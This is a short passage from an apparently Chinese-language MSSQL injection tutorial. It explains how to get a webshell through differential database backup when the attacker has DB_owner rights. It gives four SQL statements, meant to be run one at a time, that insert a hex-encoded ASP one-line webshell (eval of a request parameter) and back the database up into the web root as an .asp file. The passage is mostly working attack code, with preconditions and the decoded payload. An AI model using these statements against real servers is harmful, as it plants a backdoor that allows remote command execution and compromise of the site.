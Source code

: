 

### DB_owner权限差异备份Getshell
注：差异备份有概率会把网站搞崩，所以不建议使用差异备份
**利用前提**：

- 知道网站的绝对路径 
- 该注入支持堆叠注入

注：以下语句一条一条执行
```sql
create table [dbo].[test] ([cmd] [image])
insert into [test](cmd) values(0x3c256576616c20726571756573742822636d642229253e)
backup database test to disk = 'C:\Inetpub\wwwroot\1.asp'
Drop table [test]
```
第2行的` 0x3c256576616c20726571756573742822636d642229253e` 是一句话木马 的16进制表示`<%eval request("cmd")%>`

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_38_HltLI16Y.png)



